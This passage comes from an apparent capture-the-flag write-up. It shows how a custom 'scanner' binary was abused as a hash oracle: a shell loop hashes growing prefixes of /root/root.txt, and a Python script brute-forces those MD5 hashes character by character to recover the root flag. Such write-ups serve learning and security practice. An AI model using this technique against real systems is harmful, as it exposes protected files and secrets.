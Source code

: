 ## EXPLOIT 3 - HASH GUESSING ON CUSTOM BINARY

The custom `scanner` binary comprised of performed hash verification of provided files against provided hashes. This was initially used to flag copyrighted images; however, the binary was used to brute-force the root flag on the server.

The following command was used to retrieve the root flag hash, by scanning the hash of 1 character until 32 characters.

```sh
for i in {1..32}; do /opt/scanner/scanner -p -s 123456 -c /root/root.txt -l $i >> hashes.txt; done
```

![](screenshots/17-root-hash.png)

This list of hashes was then saved in `root-flag-hashes.txt` and the following script was used to retrieve it.

```python
#!/usr/bin/env python3

import hashlib
import string

hex_characters = string.printable[:16]

hashes = open("root-flag-hashes.txt").readlines()
flag = ""

for h in hashes:
	h = h.rstrip()
	for c in hex_characters:
		check = flag.encode() + c.encode()
		if hashlib.md5(check).hexdigest() == h:
			flag += c
			break
```